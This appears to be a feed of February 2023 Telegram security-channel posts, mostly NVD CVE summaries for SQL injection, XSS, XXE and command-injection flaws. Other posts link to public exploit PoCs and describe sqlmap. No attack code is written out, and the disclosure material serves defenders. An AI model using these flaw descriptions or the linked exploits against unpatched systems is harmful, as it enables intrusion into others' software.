‼ CVE-2022-4557 ‼

Improper Input Validation vulnerability in Group Arge Energy and Control Systems Smartpower Web allows SQL Injection.This issue affects Smartpower Web: before 23.01.01.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# RalfHackerChannel
`2023-02-10`

<blockquote>
И наконец опубликована картошка для CVE-2023-21746 (Windows LPE)

Blog: https://www.localpotato.com/localpotato_html/LocalPotato.html

PoC: https://github.com/decoder-it/LocalPotato

&#35;git &#35;lpe &#35;pentest &#35;redteam
</blockquote>

<table><tr><td><b>→</b><a href="https://www.localpotato.com/localpotato_html/LocalPotato.html">
https://www.localpotato.com/localpotato_html/LocalPotato.html
</a>
<blockquote>
Here we are again with our new &amp;ast;potato flavor&amp;comma; the LocalPotato&amp;excl; This was a cool finding so we decided to create this dedicated website &amp;semi;&amp;rpar;
</blockquote>
</td></tr></table>

---

# cibsecurity
`2023-02-10`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2015-10077

<blockquote>
‼ CVE-2015-10077 ‼

A vulnerability was found in webbuilders-group silverstripe-kapost-bridge 0.3.3. It has been declared as critical. Affected by this vulnerability is the function index/getPreview of the file code/control/KapostService.php. The manipulation leads to sql injection. The attack can be launched remotely. Upgrading to version 0.4.0 is able to address this issue. The name of the patch is 2e14b0fd0ea35034f90890f364b130fb4645ff35. It is recommended to upgrade the affected component. The associated identifier of this vulnerability is VDB-220471.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-10`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-24232

<blockquote>
‼ CVE-2023-24232 ‼

A stored cross-site scripting (XSS) vulnerability in the component /php-inventory-management-system/product.php of Inventory Management System v1 allows attackers to execute arbitrary web scripts or HTML via a crafted payload injected into the Product Name parameter.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-10`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-24233

<blockquote>
‼ CVE-2023-24233 ‼

A stored cross-site scripting (XSS) vulnerability in the component /php-inventory-management-system/orders.php?o&#61;add of Inventory Management System v1 allows attackers to execute arbitrary web scripts or HTML via a crafted payload injected into the Client Name parameter.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-10`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-24234

<blockquote>
‼ CVE-2023-24234 ‼

A stored cross-site scripting (XSS) vulnerability in the component php-inventory-management-system/brand.php of Inventory Management System v1 allows attackers to execute arbitrary web scripts or HTML via a crafted payload injected into the Brand Name parameter.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-10`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-24231

<blockquote>
‼ CVE-2023-24231 ‼

A stored cross-site scripting (XSS) vulnerability in the component /php-inventory-management-system/categories.php of Inventory Management System v1 allows attackers to execute arbitrary web scripts or HTML via a crafted payload injected into the Categories Name parameter.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-10`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-24230

<blockquote>
‼ CVE-2023-24230 ‼

A stored cross-site scripting (XSS) vulnerability in the component /formwork/panel/dashboard of Formwork v1.12.1 allows attackers to execute arbitrary web scripts or HTML via a crafted payload injected into the Page title parameter.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-10`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-24569

<blockquote>
‼ CVE-2023-24569 ‼

Dell Alienware Command Center versions 5.5.37.0 and prior contain an Improper Input validation vulnerability. A local authenticated malicious user could potentially send malicious input to a named pipe in order to elevate privileges on the system.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-10`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-24684

<blockquote>
‼ CVE-2023-24684 ‼

ChurchCRM v4.5.3 and below was discovered to contain a SQL injection vulnerability via the EID parameter at GetText.php.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-10`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-45699

<blockquote>
‼ CVE-2022-45699 ‼

Command injection in the administration interface in APSystems ECU-R version 5203 allows a remote unauthenticated attacker to execute arbitrary commands as root using the timezone parameter.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-10`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-22832

<blockquote>
‼ CVE-2023-22832 ‼

The ExtractCCDAAttributes Processor in Apache NiFi 1.2.0 through 1.19.1 does not restrict XML External Entity references. Flow configurations that include the ExtractCCDAAttributes Processor are vulnerable to malicious XML documents that contain Document Type Declarations with XML External Entity references. The resolution disables Document Type Declarations and disallows XML External Entity resolution in the ExtractCCDAAttributes Processor.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-10`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2015-10076

<blockquote>
‼ CVE-2015-10076 ‼

A vulnerability was found in dimtion Shaarlier up to 1.2.2. It has been declared as critical. Affected by this vulnerability is the function createTag of the file app/src/main/java/com/dimtion/shaarlier/TagsSource.java of the component Tag Handler. The manipulation leads to sql injection. Upgrading to version 1.2.3 is able to address this issue. The name of the patch is 3d1d9b239d9b3cd87e8bed45a0f02da583ad371e. It is recommended to upgrade the affected component. The identifier VDB-220453 was assigned to this vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-10`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-0774

<blockquote>
‼ CVE-2023-0774 ‼

A vulnerability has been found in SourceCodester Medical Certificate Generator App 1.0 and classified as critical. This vulnerability affects unknown code of the file action.php. The manipulation of the argument lastname leads to sql injection. The attack can be initiated remotely. The exploit has been disclosed to the public and may be used. VDB-220558 is the identifier assigned to this vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-10`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-0771

<blockquote>
‼ CVE-2023-0771 ‼

SQL Injection in GitHub repository ampache/ampache prior to 5.5.7,develop.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# hackgit
`2023-02-11`

* https://telegra.ph/file/a27dd3c4b7a8d4ae73ad8.jpg
* https://t.me/hackgit
* https://github.com/incredibleindishell/SSRF_Vulnerable_Lab

<blockquote>
​​Server-Side Request Forgery (SSRF) vulnerable Lab

This Lab contain the sample codes which are vulnerable to Server-Side Request Forgery attack.

https://github.com/incredibleindishell/SSRF_Vulnerable_Lab
</blockquote>

<table><tr><td><b>→</b><a href="https://telegra.ph/file/a27dd3c4b7a8d4ae73ad8.jpg">
https://telegra.ph/file/a27dd3c4b7a8d4ae73ad8.jpg
</a>
</td></tr></table>

---

# defcon_news
`2023-02-10`

<blockquote>
Avalanche Blockchain Vulnerable to 0day DoS
https://www.reddit.com/r/netsec/comments/10ydkmc/avalanche_blockchain_vulnerable_to_0day_dos/
</blockquote>

<table><tr><td><b>→</b><a href="https://www.reddit.com/r/netsec/comments/10ydkmc/avalanche_blockchain_vulnerable_to_0day_dos/">
https://www.reddit.com/r/netsec/comments/10ydkmc/avalanche_blockchain_vulnerable_to_0day_dos/
</a>
<blockquote>
15 votes, 16 comments. 467K subscribers in the netsec community. /r/netsec is a community-curated aggregator of technical information security…
</blockquote>
</td></tr></table>

---

# cibsecurity
`2023-02-09`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-24688

<blockquote>
‼ CVE-2023-24688 ‼

An issue in Mojoportal v2.7.0.0 allows an unauthenticated attacker to register a new user even if the Allow User Registrations feature is disabled.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-09`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-24322

<blockquote>
‼ CVE-2023-24322 ‼

A reflected cross-site scripting (XSS) vulnerability in the FileDialog.aspx component of mojoPortal v2.7.0.0 allows attackers to execute arbitrary web scripts or HTML via a crafted payload injected into the ed and tbi parameters.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-09`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-24687

<blockquote>
‼ CVE-2023-24687 ‼

Mojoportal v2.7.0.0 was discovered to contain a stored cross-site scripting (XSS) vulnerability in the Company Info Settings component. This vulnerability allows attackers to execute arbitrary web scripts or HTML via a crafted payload injected into the txtCompanyName parameter.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-09`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-23912

<blockquote>
‼ CVE-2023-23912 ‼

A vulnerability, found in EdgeRouters Version 2.0.9-hotfix.5 and earlier and UniFi Security Gateways (USG) Version 4.4.56 and earlier with their DHCPv6 prefix delegation set to dhcpv6-stateless or dhcpv6-stateful, allows a malicious actor directly connected to the WAN interface of an affected device to create a remote code execution vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-09`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-21428

<blockquote>
‼ CVE-2023-21428 ‼

Improper input validation vulnerability in TelephonyUI prior to SMR Jan-2023 Release 1 allows attackers to configure Preferred Call. The patch removes unused code.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-09`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-24323

<blockquote>
‼ CVE-2023-24323 ‼

Mojoportal v2.7 was discovered to contain an authenticated XML external entity (XXE) injection vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-09`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-43552

<blockquote>
‼ CVE-2022-43552 ‼

A use after free vulnerability exists in curl &lt;7.87.0. Curl can be asked to *tunnel* virtually all protocols it supports through an HTTP proxy. HTTP proxies can (and often do) deny such tunnel operations. When getting denied to tunnel the specific protocols SMB or TELNET, curl would use a heap-allocated struct after it had been freed, in its transfer shutdown code path.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-09`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-0575

<blockquote>
‼ CVE-2023-0575 ‼

External Control of Critical State Data, Improper Control of Generation of Code ('Code Injection') vulnerability in YugaByte, Inc. Yugabyte DB on Windows, Linux, MacOS, iOS (DevopsBase.Java:execCommand, TableManager.Java:runCommand modules) allows API Manipulation, Privilege Abuse. This vulnerability is associated with program files backup.Py. This issue affects Yugabyte DB: Lesser then 2.2.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-09`

* https://portswigger.net/daily-swig/new-xss-hunter-host-truffle-security-faces-privacy-backlash

<blockquote>
🗓️ New XSS Hunter host Truffle Security faces privacy backlash 🗓️

Anonymized numbers of bug discoveries swiftly deleted after pushback

📖 Read

via &quot;The Daily Swig&quot;.
</blockquote>

<table><tr><td><b>→</b><a href="https://portswigger.net/daily-swig/new-xss-hunter-host-truffle-security-faces-privacy-backlash">
https://portswigger.net/daily-swig/new-xss-hunter-host-truffle-security-faces-privacy-backlash
</a>
<blockquote>
Anonymized numbers of bug discoveries swiftly deleted after pushback
</blockquote>
</td></tr></table>

---

# cibsecurity
`2023-02-09`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-0574

<blockquote>
‼ CVE-2023-0574 ‼

Server-Side Request Forgery (SSRF), Improperly Controlled Modification of Dynamically-Determined Object Attributes, Improper Restriction of Excessive Authentication Attempts vulnerability in YugaByte, Inc. Yugabyte Managed allows Accessing Functionality Not Properly Constrained by ACLs, Communication Channel Manipulation, Authentication Abuse.This issue affects Yugabyte Managed: from 2.0 through 2.13.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# hackgit
`2023-02-09`

* https://telegra.ph/file/13541857b7af73a412e1a.jpg
* https://github.com/sqlmapproject/sqlmap

<blockquote>
​​sqlmap

Automatic SQL injection and database takeover tool

sqlmap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. It comes with a powerful detection engine, many niche features for the ultimate penetration tester, and a broad range of switches including database fingerprinting, over data fetching from the database, accessing the underlying file system, and executing commands on the operating system via out-of-band connections.

https://github.com/sqlmapproject/sqlmap

&#35;best &#35;kali
</blockquote>

<table><tr><td><b>→</b><a href="https://telegra.ph/file/13541857b7af73a412e1a.jpg">
https://telegra.ph/file/13541857b7af73a412e1a.jpg
</a>
</td></tr></table>

---

# cibsecurity
`2023-02-08`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-45755

<blockquote>
‼ CVE-2022-45755 ‼

Cross-site scripting (XSS) vulnerability in EyouCMS v1.6.0 allows attackers to execute arbitrary code via the home page description on the basic information page.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-08`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-45526

<blockquote>
‼ CVE-2022-45526 ‼

SQL Injection vulnerability in Future-Depth Institutional Management Website (IMS) 1.0, allows attackers to execute arbitrary commands via the ad parameter to /admin_area/login_transfer.php.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-08`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-34362

<blockquote>
‼ CVE-2022-34362 ‼

IBM Sterling Secure Proxy 6.0.3 is vulnerable to HTTP header injection, caused by improper validation of input by the HOST headers. This could allow an attacker to conduct various attacks against the vulnerable system, including cross-site scripting, cache poisoning or session hijacking. IBM X-Force ID: 230523.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-08`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-0747

<blockquote>
‼ CVE-2023-0747 ‼

Cross-site Scripting (XSS) - Stored in GitHub repository btcpayserver/btcpayserver prior to 1.7.6.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-08`

* https://portswigger.net/daily-swig/dom-xss-vulnerability-in-gartner-peer-insights-widget-patched

<blockquote>
🗓️ DOM XSS vulnerability in Gartner Peer Insights widget patched 🗓️

Web attack vector closed after failed fix

📖 Read

via &quot;The Daily Swig&quot;.
</blockquote>

<table><tr><td><b>→</b><a href="https://portswigger.net/daily-swig/dom-xss-vulnerability-in-gartner-peer-insights-widget-patched">
https://portswigger.net/daily-swig/dom-xss-vulnerability-in-gartner-peer-insights-widget-patched
</a>
<blockquote>
Web attack vector closed after failed fix
</blockquote>
</td></tr></table>

---

# cibsecurity
`2023-02-08`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-0743

<blockquote>
‼ CVE-2023-0743 ‼

Cross-site Scripting (XSS) - Generic in GitHub repository answerdev/answer prior to 1.0.4.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-08`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-0740

<blockquote>
‼ CVE-2023-0740 ‼

Cross-site Scripting (XSS) - Stored in GitHub repository answerdev/answer prior to 1.0.4.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-08`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-0741

<blockquote>
‼ CVE-2023-0741 ‼

Cross-site Scripting (XSS) - DOM in GitHub repository answerdev/answer prior to 1.0.4.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-08`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-0742

<blockquote>
‼ CVE-2023-0742 ‼

Cross-site Scripting (XSS) - Stored in GitHub repository answerdev/answer prior to 1.0.4.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# hackgit
`2023-02-08`

* https://telegra.ph/file/a8aad3d475da07dbdfce3.jpg
* https://www.metabaseq.com/imagemagick-zero-days/
* https://github.com/Sybil-Scan/imagemagick-lfi-poc

<blockquote>
​​ImageMagick LFI PoC [CVE-2022-44268]

The researchers at MetabaseQ discovered CVE-2022-44268, i.e. ImageMagick 7.1.0-49 is vulnerable to Information Disclosure. When it parses a PNG image (e.g., for resize), the resulting image could have embedded the content of an arbitrary remote file (if the ImageMagick binary has permissions to read it).

https://github.com/Sybil-Scan/imagemagick-lfi-poc
</blockquote>

<table><tr><td><b>→</b><a href="https://telegra.ph/file/a8aad3d475da07dbdfce3.jpg">
https://telegra.ph/file/a8aad3d475da07dbdfce3.jpg
</a>
</td></tr></table>

---

# proxy_bar
`2023-02-08`

<blockquote>
LFI
</blockquote>



---

# cibsecurity
`2023-02-08`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-23026

<blockquote>
‼ CVE-2023-23026 ‼

Cross site scripting (XSS) vulnerability in sourcecodester oretnom23 sales management system 1.0, allows attackers to execute arbitrary code via the product_name and product_price inputs in file print.php.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-08`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-47418

<blockquote>
‼ CVE-2022-47418 ‼

LogicalDOC Enterprise and Community Edition (CE) are vulnerable to a stored (persistent, or &quot;Type II&quot;) cross-site scripting (XSS) condition in the document version comments.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-08`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-0736

<blockquote>
‼ CVE-2023-0736 ‼

Cross-site Scripting (XSS) - Stored in GitHub repository wallabag/wallabag prior to 2.5.4.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-08`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2021-36471

<blockquote>
‼ CVE-2021-36471 ‼

Directory Traversal vulnerability in AdminLTE 3.1.0 allows remote attackers to gain escalated privilege and view sensitive information via /admin/index2.html, /admin/index3.html URIs.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-08`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-23011

<blockquote>
‼ CVE-2023-23011 ‼

Cross Site Scripting (XSS) vulnerability in InvoicePlane 1.6 via filter_product input to file modal_product_lookups.php.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-07`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2011-10003

<blockquote>
‼ CVE-2011-10003 ‼

A vulnerability was found in XpressEngine up to 1.4.4. It has been rated as critical. This issue affects some unknown processing of the component Update Query Handler. The manipulation leads to sql injection. Upgrading to version 1.4.5 is able to address this issue. The name of the patch is c6e94449f21256d6362450b29c7847305e756ad5. It is recommended to upgrade the affected component. The associated identifier of this vulnerability is VDB-220247.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-07`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-47413

<blockquote>
‼ CVE-2022-47413 ‼

Given a malicious document provided by an attacker, the OpenKM DMS is vulnerable to a stored (persistent, or &quot;Type II&quot;) XSS condition.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-07`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-47414

<blockquote>
‼ CVE-2022-47414 ‼

If an attacker has access to the console for OpenKM (and is authenticated), a stored XSS vulnerability is reachable in the document &quot;note&quot; functionality.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-07`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-47416

<blockquote>
‼ CVE-2022-47416 ‼

LogicalDOC Enterprise is vulnerable to a stored (persistent, or &quot;Type II&quot;) cross-site scripting (XSS) condition in the in-app chat system.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-07`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-47419

<blockquote>
‼ CVE-2022-47419 ‼

An XSS vulnerability was discovered in the Mayan EDMS DMS. Successful XSS exploitation was observed in the in-product tagging system.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-07`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-47417

<blockquote>
‼ CVE-2022-47417 ‼

LogicalDOC Enterprise and Community Edition (CE) are vulnerable to a stored (persistent, or &quot;Type II&quot;) cross-site scripting (XSS) condition in the document file name.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-07`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-25194

<blockquote>
‼ CVE-2023-25194 ‼

A possible security vulnerability has been identified in Apache Kafka Connect. This requires access to a Kafka Connect worker, and the ability to create/modify connectors on it with an arbitrary Kafka client SASL JAAS config and a SASL-based security protocol, which has been possible on Kafka Connect clusters since Apache Kafka 2.3.0. When configuring the connector via the Kafka Connect REST API, an authenticated operator can set the `sasl.jaas.config` property for any of the connector's Kafka clients to &quot;com.sun.security.auth.module.JndiLoginModule&quot;, which can be done via the `producer.override.sasl.jaas.config`, `consumer.override.sasl.jaas.config`, or `admin.override.sasl.jaas.config` properties. This will allow the server to connect to the attacker's LDAP server and deserialize the LDAP response, which the attacker can use to execute java deserialization gadget chains on the Kafka connect server. Attacker can cause unrestricted deserialization of untrusted data (or) RCE vulnerability when there are gadgets in the classpath. Since Apache Kafka 3.0.0, users are allowed to specify these properties in connector configurations for Kafka Connect clusters running with out-of-the-box configurations. Before Apache Kafka 3.0.0, users may not specify these properties unless the Kafka Connect cluster has been reconfigured with a connector client override policy that permits them. Since Apache Kafka 3.4.0, we have added a system property (&quot;-Dorg.apache.kafka.disallowed.login.modules&quot;) to disable the problematic login modules usage in SASL JAAS configuration. Also by default &quot;com.sun.security.auth.module.JndiLoginModule&quot; is disabled in Apache Kafka 3.4.0. We advise the Kafka Connect users to validate connector configurations and only allow trusted JNDI configurations. Also examine connector dependencies for vulnerable versions and either upgrade their connectors, upgrading that specific dependency, or removing the connectors as options for remediation. Finally, in addition to leveraging the &quot;org.apache.kafka.disallowed.login.modules&quot; system property, Kafka Connect users can also implement their own connector client config override policy, which can be used to control which Kafka client properties can be overridden directly in a connector config and which cannot.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-07`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-47412

<blockquote>
‼ CVE-2022-47412 ‼

Given a malicious document provided by an attacker, the ONLYOFFICE Workspace DMS is vulnerable to a stored (persistent, or &quot;Type II&quot;) cross-site scripting (XSS) condition.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-07`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2011-10002

<blockquote>
‼ CVE-2011-10002 ‼

A vulnerability classified as critical has been found in weblabyrinth 0.3.1. This affects the function Labyrinth of the file labyrinth.inc.php. The manipulation leads to sql injection. Upgrading to version 0.3.2 is able to address this issue. The name of the patch is 60793fd8c8c4759596d3510641e96ea40e7f60e9. It is recommended to upgrade the affected component. The identifier VDB-220221 was assigned to this vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# ctfchat
`2023-02-07`

<blockquote>
И был бы настоящим пиздаболом по типу индиги, я бы ща сказал че-то типа &quot;я помню нашёл xss в гидре, пидоры должны мне 1337 баков за блэк баунти&quot;
</blockquote>

---

# defcon_news
`2023-02-07`

<blockquote>
Emergency Patch Released For GoAnywhere MFT Zero-Day Vulnerability
https://latesthackingnews.com/2023/02/07/emergency-patch-released-for-goanywhere-mft-zero-day-vulnerability/
</blockquote>

<table><tr><td><b>→</b><a href="https://latesthackingnews.com/2023/02/07/emergency-patch-released-for-goanywhere-mft-zero-day-vulnerability/?utm_source=dlvr.it&utm_medium=twitter">
https://latesthackingnews.com/2023/02/07/emergency-patch-released-for-goanywhere-mft-zero-day-vulnerability/?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Researchers have warned users about a serious zero-day vulnerability in the GoAnywhere MFT software. Exploiting the vulnerability allows an attacker to breach the tool’s servers and execute codes on exposed admin consoles. Following active exploitation
</blockquote>
</td></tr></table>

---

# defcon_news
`2023-02-07`

<blockquote>
101news By Mayuri K 1.0 SQL Injection
http://exploit.kitploit.com/2023/02/101news-by-mayuri-k-10-sql-injection.html
</blockquote>

<table><tr><td><b>→</b><a href="https://exploit.kitploit.com/2023/02/101news-by-mayuri-k-10-sql-injection.html">
https://exploit.kitploit.com/2023/02/101news-by-mayuri-k-10-sql-injection.html
</a>
<blockquote>
Exploit Collector is the ultimate collection of public exploits and exploitable vulnerabilities. Remote/Local Exploits, Shellcode and 0days.
</blockquote>
</td></tr></table>

---

# defcon_news
`2023-02-07`

<blockquote>
Material Dashboard 2 SQL Injection
http://exploit.kitploit.com/2023/02/material-dashboard-2-sql-injection.html
</blockquote>

<table><tr><td><b>→</b><a href="https://exploit.kitploit.com/2023/02/material-dashboard-2-sql-injection.html">
https://exploit.kitploit.com/2023/02/material-dashboard-2-sql-injection.html
</a>
<blockquote>
Exploit Collector is the ultimate collection of public exploits and exploitable vulnerabilities. Remote/Local Exploits, Shellcode and 0days.
</blockquote>
</td></tr></table>

---

# defcon_news
`2023-02-07`

<blockquote>
101news By Mayuri K 1.0 SQL Injection
https://packetstormsecurity.com/files/170874/101newsbymk10-sql.txt
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/170874/101newsbymk10-sql.txt">
https://packetstormsecurity.com/files/170874/101newsbymk10-sql.txt
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# defcon_news
`2023-02-07`

<blockquote>
Material Dashboard 2 SQL Injection
https://packetstormsecurity.com/files/170870/materialdashboard2-sql.txt
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/170870/materialdashboard2-sql.txt">
https://packetstormsecurity.com/files/170870/materialdashboard2-sql.txt
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# cibsecurity
`2023-02-07`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-0707

<blockquote>
‼ CVE-2023-0707 ‼

A vulnerability was found in SourceCodester Medical Certificate Generator App 1.0. It has been rated as critical. Affected by this issue is the function delete_record of the file function.php. The manipulation of the argument id leads to sql injection. VDB-220346 is the identifier assigned to this vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-07`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-45441

<blockquote>
‼ CVE-2022-45441 ‼

A cross-site scripting (XSS) vulnerability in Zyxel NBG-418N v2 firmware versions prior to V1.00(AARP.13)C0, which could allow an attacker to store malicious scripts in the Logs page of the GUI on a vulnerable device. A successful XSS attack could force an authenticated user to execute the stored malicious scripts and then result in a denial-of-service (DoS) condition when the user visits the Logs page of the GUI on the device.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-07`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-3229

<blockquote>
‼ CVE-2022-3229 ‼

Because the web management interface for Unified Intents' Unified Remote solution does not itself require authentication, a remote, unauthenticated attacker can change or disable authentication requirements for the Unified Remote protocol, and leverage this now-unauthenticated access to run code of the attacker's choosing.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-06`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2021-31573

<blockquote>
‼ CVE-2021-31573 ‼

In Config Manager, there is a possible command injection due to improper input validation. This could lead to remote escalation of privilege from a proximal attacker with no additional execution privileges needed. User interaction is not needed for exploitation. Patch ID: A20210009; Issue ID: OSBNB00123234.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-06`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2021-31574

<blockquote>
‼ CVE-2021-31574 ‼

In Config Manager, there is a possible command injection due to improper input validation. This could lead to remote escalation of privilege from a proximal attacker with no additional execution privileges needed. User interaction is not needed for exploitation. Patch ID: A20210009; Issue ID: OSBNB00123234.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-06`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-45589

<blockquote>
‼ CVE-2022-45589 ‼

SQL Injection vulnerability in Talend ESB Runtime 7.3.1-R2022-09-RT thru 8.0.1-R2022-10-RT when using the provisioning service.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-06`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2021-31575

<blockquote>
‼ CVE-2021-31575 ‼

